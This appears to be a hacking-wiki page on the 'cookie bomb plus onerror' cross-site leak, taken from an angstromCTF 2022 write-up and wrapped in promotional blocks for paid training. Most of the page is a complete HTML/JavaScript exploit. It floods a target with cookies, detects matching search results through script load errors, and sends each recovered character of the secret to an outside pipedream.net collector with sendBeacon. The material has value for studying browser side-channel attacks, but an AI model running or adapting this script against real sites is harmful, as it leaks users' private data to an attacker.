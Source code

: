 # Cookie Bomb + Onerror XS Leak

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
        navigator.sendBeacon(url + "?go");
        while (true) {
            for (let c of alphabet) {
                let query = known + c;
                if (await search(query)) {
                    navigator.sendBeacon(url, query);
                    known += c;
                    break;
                }
            }
        }
    };
</script>
```







<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in ByteBreach**? or do you want to have access to the **latest version of the PEASS or download ByteBreach in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@khulnasoftm**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**bytebreach repo**](https://github.com/khulnasoft/bytebreach) **and** [**bytebreach-cloud repo**](https://github.com/khulnasoft/bytebreach-cloud).

</details>
